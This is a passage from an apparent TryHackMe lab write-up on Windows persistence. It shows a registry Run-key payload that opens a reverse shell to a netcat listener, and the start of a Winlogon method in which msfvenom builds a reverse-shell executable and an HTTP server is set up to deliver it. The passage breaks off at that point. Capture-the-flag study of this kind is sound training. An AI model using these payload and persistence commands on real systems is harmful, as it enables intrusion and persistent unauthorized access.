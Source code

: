 ```PowerShell
PS C:\Users\Administrator> regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Open.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20HKEY_LOCAL_MACHINE%20Software%20Microsoft%20Windows%20CurrentVersion%20Run.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20HKEY_LOCAL_MACHINE%20Software%20Microsoft%20Windows%20CurrentVersion%20Run%20Payload.png)

10. After successfully creating the new registry, we'll sign out and then sign back into the compromised machine, which should execute our payload once it's done starting up and connect to our attack machine's active netcat listener, which it did

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49943 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
11. `C:\flags\flag11.exe` from our reverse shell on our attack machine to run the **flag11.exe** program, which ended up containing the task's flag and displaying it onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag11.exe
C:\flags\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}
```


**TASK COMPLETED!**

# Winlogon
1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine
```PowerShell
```